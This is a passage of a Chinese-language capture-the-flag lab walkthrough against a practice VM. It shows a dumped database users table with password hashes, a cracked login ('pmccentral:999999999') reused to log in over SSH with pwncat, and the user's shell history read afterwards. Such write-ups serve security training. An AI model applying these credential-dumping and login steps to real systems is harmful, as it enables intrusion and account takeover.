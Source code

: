将数据库的数据 dump 下来

```plaintext
Database: nebuladb
Table: users
[7 entries]
+----+----------+----------------------------------------------+-------------+
| id | is_admin | password                                     | username    |
+----+----------+----------------------------------------------+-------------+
| 1  | 1        | d46df8e6a5627debf930f7b5c8f3b083             | admin       |
| 2  | 0        | c8c605999f3d8352d7bb792cf3fdb25b (999999999) | pmccentral  |
| 3  | 0        | 5f823f1ac7c9767c8d1efbf44158e0ea             | Frederick   |
| 3  | 0        | 4c6dda8a9d149332541e577b53e2a3ea             | Samuel      |
| 5  | 0        | 41ae0e6fbe90c08a63217fc964b12903             | Mary        |
| 6  | 0        | 5d8cdc88039d5fc021880f9af4f7c5c3             | hecolivares |
| 7  | 1        | c8c605999f3d8352d7bb792cf3fdb25b (999999999) | pmccentral  |
+----+----------+----------------------------------------------+-------------+
```

得到一组凭据

```plaintext
pmccentral:999999999
```

## User - pmccentral

```shell
┌─[randark@parrot]─[~/tmp]
└──╼ $pwncat-cs pmccentral@192.168.56.108
[19:46:46] Welcome to pwncat 🐈!
Password: *********
[19:46:50] 192.168.56.108:22: registered new host w/ db
(local) pwncat$ back
(remote) pmccentral@laboratoryuser:/home/pmccentral$ whoami
pmccentral
```

### 读取命令行历史

```shell title="/home/pmccentral/.bash_history"
ls
cd laboratoryuser/
sudo su
cd pmccentral/
ls
nano
ls
mkdir desktop downloads documents
ls
ll
exit
ls
tree
ls
ls desktop/k
ls desktop/
ls documents/
ls
ls downloads/
cd documents/
ls
cat employees.txt
cd ..
ls
cd laboratoryadmin/
```